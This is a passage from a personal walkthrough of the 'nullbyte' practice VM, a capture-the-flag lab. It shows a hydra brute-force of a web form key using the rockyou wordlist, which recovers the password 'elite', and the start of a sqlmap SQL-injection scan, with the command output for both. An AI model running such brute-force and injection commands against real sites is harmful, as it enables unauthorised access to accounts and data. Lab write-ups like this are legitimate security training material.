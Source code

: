 HTTP Post request, with a password that "ain't" that complex...so it's an easy password...brute force? I break out hydra. I'm not to familiar with hydra (I don't do much password cracking) so it took awhile to get the switches to work correctly.

```bash
hydra 192.168.61.147 http-form-post "/kzMb5nVYJw/index.php:key=^PASS^:invalid key" -P /usr/share/wordlists/rockyou.txt -la | tee nullbyte.hydra

Hydra v8.1 (c) 2014 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (http://www.thc.org/thc-hydra) starting at 2015-12-09 17:16:53
[DATA] max 16 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~14008 tries per task
[DATA] attacking service http-post-form on port 80
[80][http-post-form] host: 192.168.61.147   login: a   password: elite
1 of 1 target successfully completed, 1 valid password found
Hydra (http://www.thc.org/thc-hydra) finished at 2015-12-09 17:17:16
```

This took about 30 seconds surprisingly, password is "elite". Which brings me deeper into the site. 

![Elite worked](/images/elite_success.png)

Entering anything into the parameter gives you the a successful data fetch of what I assume are usernames. Playing around with the input your provide will sometimes give you one or two usernames. This definitely smells like sql injection. Given this is a practice image, I'm was sure sqli would come into play at some point.

```bash
sqlmap -u "http://192.168.61.147/kzMb5nVYJw/420search.php?usrtosearch=x" | tee nullbyte.sql

         _
 ___ ___| |_____ ___ ___  {1.0-dev-nongit-20151017}
|_ -| . | |     | .'| . |
|___|_  |_|_|_|_|__,|  _|
      |_|           |_|   http://sqlmap.org

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting at 17:23:07

[17:23:07] [INFO] testing connection to the target URL
[17:23:07] [INFO] testing if the target URL is stable
[17:23:08] [INFO] target URL is stable
[17:23:08] [INFO] testing if GET parameter 'usrtosearch' is dynamic
[17:23:08] [WARNING] GET parameter 'usrtosearch' does not appear dynamic
```